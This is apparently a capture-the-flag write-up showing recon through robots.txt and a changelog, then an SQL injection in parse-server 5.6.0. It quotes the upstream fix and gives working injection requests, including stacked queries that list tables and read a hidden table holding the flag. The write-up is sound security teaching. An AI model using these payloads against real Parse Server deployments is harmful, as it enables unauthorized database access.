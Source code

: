 ## Recon

Visiting `http://challenges.challenge-ecw.eu:39048/robots.txt` reveals:
```
User-agent: *
Allow: /
Disallow: /CHANGELOG.md
```

We can then visit `http://challenges.challenge-ecw.eu:39048/CHANGELOG.md`
```
# Changelog

All notable changes to this project, will be documented in this file.

## [1.1.0] - 2023-12-10
### Changed
- Upgraded `parse-server` to version 5.6.0 to take advantage of new features.

## [1.0.0] - 2023-10-16
### Added
- Initial release of the project.
- Set up an Express server with `express` v4.17.1 to serve the application.
- Dockerized application setup with PostGIS and Parse Server.
```

## CVE

Googling `parse-server 5.6.0` reveals a [CVE](https://security.snyk.io/vuln/SNYK-JS-PARSESERVER-7414171) related to SQL injection.

Here is the [PR](https://github.com/parse-community/parse-server/commit/2edf1e4c0363af01e97a7fbc97694f851b7d1ff3#diff-06a6bf7bf8f7198c26642684e9c8ecaebb042d28eec43c17171d8054dc675964R2664) that fixes this vulnerability:
```js
-    .replace(/([^'])'/g, `$1''`)
-    .replace(/^'([^'])/, `''$1`);
+    // Ensure even number of single quote sequences by adding an extra single quote if needed;
+    // this ensures that every single quote is escaped
+    .replace(/'+/g, match => {
+      return match.length % 2 === 0 ? match : match + "'";
+    });
```

We could try and understand the regex.. or simply throw an odd number of `'` and see what happens.

Searching for `'''` (`http://challenges.challenge-ecw.eu:39048//api/search?q=%27%27%27`) yields an error:
```
{"code":1,"error":{"length":118,"name":"error","severity":"ERROR","code":"42601","position":"98","file":"scan.l","line":"1123","routine":"scanner_yyerror"}}
```

Yay we have an injection!

Let's list the tables by searching for `'''; SELECT * FROM pg_catalog.pg_tables;--`

We notice 2 interesting tables: `superwellhiddentable` and `SuperWellHiddenTable`.

`SuperWellHiddenTable` (`http://challenges.challenge-ecw.eu:39048//api/search?q=%27%27%27%3BSELECT+%2A+FROM+%22SuperWellHiddenTable%22%3B--`) contains the flag:

```
ECW{Upd@te_YoUr_DEpeNdEnciEs}
```

